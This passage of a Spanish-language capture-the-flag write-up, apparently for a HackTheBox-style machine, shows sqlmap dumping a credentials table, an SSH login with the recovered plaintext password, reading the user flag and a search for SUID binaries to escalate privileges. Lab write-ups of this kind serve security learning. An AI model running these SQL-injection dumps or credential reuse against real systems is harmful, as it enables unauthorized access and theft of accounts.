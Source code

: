 Vamos encontrando consas interesantes, veamos que contienen los campos ***username*** y ***password***

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump

Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
```

Enhorabuena, tenemos un usuario -> ***player*** y un password o contraseña -> ***PlayerOftheMatch2022***.
Cosa que probraremos a continuacion, sera conectarnos por ***ssh*** con esta informacion que tenemos.

Conseguimos acceso, vemos que que usuario somos y en que equipo nos encontramos, ya podemos visualizar la primera ***flag*** y con menzar con la escalada de privilegios.
 
 ```bash
❯ ssh player@10.10.11.194
player@10.10.11.194's password: PlayerOftheMatch2022
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```
```bash
player@soccer:~$ whoami
layer
```
```bash
player@soccer:~$ hostname -I
10.10.11.194 dead:beef::250:56ff:feb9:636c 
```
```bash 
player@soccer:~$ cat user.txt 
2b****************************de
 ```

Buscamos archivos binarios ***SUID*** que podamos explotar de alguna manera.

```bash
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
```